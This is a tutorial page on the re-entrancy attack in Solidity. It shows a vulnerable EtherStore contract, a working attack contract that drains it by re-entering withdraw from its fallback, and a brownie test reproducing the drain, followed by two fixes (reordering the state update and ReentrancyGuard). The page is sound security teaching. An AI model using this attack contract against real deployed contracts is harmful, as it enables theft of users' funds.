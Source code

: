 ```yaml
---
sidebar_position: 1
tags: [re-entrancy, solidity, attack]
---
```


# Re-entrancy

### Description

A re-entrancy exploit happens when one contract executes an external call to another contract that makes a recursive call back to the original function, causing interruption of the state transition. That allows the attacker to execute withdrawal again and again until all the funds are available drained. The simplest and most famous example of this attack is `EtherStore` contract that allows depositing and withdrawing funds.

The issue there is on line 15. The function `withdraw` sends ether to the sender via `msg.sender.call{value: bal}("")`:

```solidity title=/contracts/reentrancy/EtherStore.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStore.sol sourceClassName=source-code-link
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 bal = balances[msg.sender];
        require(bal > 0);

        // highlight-next-line
        (bool sent, ) = msg.sender.call{value: bal}("");

        require(sent, "Transfer failed.");

        balances[msg.sender] = 0;
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}
```

And our sender could be the following `Attack.sol` malicious contract that decided to withdraw again during the payout fallback process on line 19:

```solidity title=/contracts/reentrancy/AttackEtherStore.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/AttackEtherStore.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IEtherStore {
    function deposit() external payable;

    function withdraw() external;
}

contract AttackEtherStore {
    IEtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = IEtherStore(_etherStoreAddress);
    }

    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            // highlight-next-line
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}

```

Please refer to the following diagram to understand the attack sequence step by step. Note, I used John just for a display purpose here.

```mermaid
sequenceDiagram
    autonumber
    John->>EtherStore: deposit 1 ETH
    Attacker->>EtherStore: deposit 1 ETH
    loop Withdraw
        Attacker->>EtherStore: call withdraw 1 ETH
        EtherStore->>Attacker: send 1 ETH
        Note right of EtherStore: Send deposited 1 ETH back to Attacker!
        Attacker->>EtherStore: fallback calls withdraw again
        EtherStore->>Attacker: send 1 ETH again!
        Note right of EtherStore: Re-entrancy of the withdraw function before the Attacker balance is REDUCED.
    end
    Note right of John: MONEY ARE GONE!
```

### How to test

Both contracts could be tested locally using [brownie](https://eth-brownie.readthedocs.io/en/stable/) tools. It's pretty easy to run a unit test, following the attack sequence to reproduce the malicious behavior. The following unit test shows how exploiting the vulnerability the attack contract balance increases its balance:

```python title=/tests/reentrancy/test_ether_store_attack.py sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/reentrancy/test_ether_store_attack.py#L12
import pytest
from brownie import exceptions
from scripts.reentrancy.ether_store.deploy_and_attack import (
    deploy_attack,
    deploy_ether_store,
    deploy_ether_store_fixed,
)
from scripts.utils import get_attacker_account, get_user_account
from web3 import Web3

def test_ether_store_attack_successful():
    # Deploy EtherStore smart contract
    ether_store = deploy_ether_store()

    # Initialize a user account
    user_account = get_user_account()
    deposit_amount_eth = 10
    value_wei = Web3.toWei(deposit_amount_eth, "ether")

    # User deposits 1 ether to EtherStore
    tx = ether_store.deposit({"from": user_account, "value": value_wei})
    tx.wait(1)

    # Assert that EtherStore balance now is 10 ETH
    assert ether_store.balanceOf() / 10**18 == 10

    # Deploy Attack contract
    attack_contract = deploy_attack(ether_store.address)

    # Assert that Attack contract balance is 0 ETH
    assert attack_contract.balanceOf() / 10**18 == 0

    # Call `attack` function of Attack contract
    attack_tx = attack_contract.attack(
        {
            "from": get_attacker_account(),
            "value": Web3.toWei(1.5, "ether"),
        }
    )

    attack_tx.wait(1)

    # Assert that EtherStore balance now is 0 ETH
    assert ether_store.balanceOf() / 10**18 == 0

    # Assert that Attack contract balance is 11.5 ETH
    assert attack_contract.balanceOf() / 10**18 == 11.5

...
```


### How to fix

#### - Apply [check-effects-interaction](https://docs.soliditylang.org/en/v0.5.11/security-considerations.html#re-entrancy) pattern

```diff title=/contracts/reentrancy/EtherStoreFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol#L16
function withdraw() public {
    uint256 bal = balances[msg.sender];
    require(bal > 0);

+   balances[msg.sender] = 0;

    // highlight-next-line
    (bool sent, ) = msg.sender.call{value: bal}("");

    require(sent, "Transfer failed.");

-   balances[msg.sender] = 0;
}
```


The send call is moved to the end of this function. This wouldn't prevent executing the `withdrow` function again by the attacker, but its balance is already 0. So the money transfer would not happen because of the `require(bal > 0)` check.


#### - Use Re-entrancy guard

The re-entrancy guard will explicitly reject any re-entrancy request. One of the most common implementations of the ReentrancyGuard is from [OpenZeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol). Also, you could have one implemented by yourself to avoid dependencies.

```solidity {5,7,11} title=/contracts/reentrancy/EtherStoreFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol#L4

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStoreFixed is ReentrancyGuard {

    ...

    function withdraw() public nonReentrant {
        ...
    }
    ...

```

### Demo

The fixed version of the [`EtherStoreFixed`](https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol) contract could be tested the same way. However, now the test should verify that re-entrancy into `withdraw` fails:

```python title=/tests/reentrancy/test_ether_store_attack.py#L51 sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/reentrancy/test_ether_store_attack.py#L51
...

def test_ether_store_attack_failed():
    # 1. Deploy EtherStore smart contracts
    ether_store = deploy_ether_store_fixed()
    user_account = get_user_account()
    deposit_amount_eth = 10

    value_wei = Web3.toWei(deposit_amount_eth, "ether")
    tx = ether_store.deposit({"from": user_account, "value": value_wei})
    tx.wait(1)
    print(
        f"Account {user_account.address} has deposited {deposit_amount_eth} ETH to EtherStore!"
    )
    print(f"Ether store balance {ether_store.balanceOf()/10**18} ETH")

    # 2. Deploy Attack contract
    attack_contract = deploy_attack(ether_store.address)

    # 3. Call `attack` function of Attack contract
    #  highlight-next-line
    with pytest.raises(exceptions.VirtualMachineError):
        attack_tx = attack_contract.attack(
            {
                "from": get_attacker_account(),
                "value": Web3.toWei(1.5, "ether"),
            }
        )

        attack_tx.wait(1)
...
```


**Thank you for reading and good luck with building secure blockchain!**